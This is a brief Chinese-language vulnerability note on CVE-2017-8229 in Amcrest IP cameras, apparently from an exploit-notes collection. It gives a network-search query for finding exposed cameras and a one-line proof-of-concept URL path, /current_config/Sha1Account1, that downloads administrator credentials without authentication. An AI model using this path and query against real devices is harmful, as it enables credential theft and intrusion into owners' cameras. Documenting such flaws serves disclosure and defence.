 # 

# Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## 网络测绘

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](./images/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](./images/202205191616340.png)
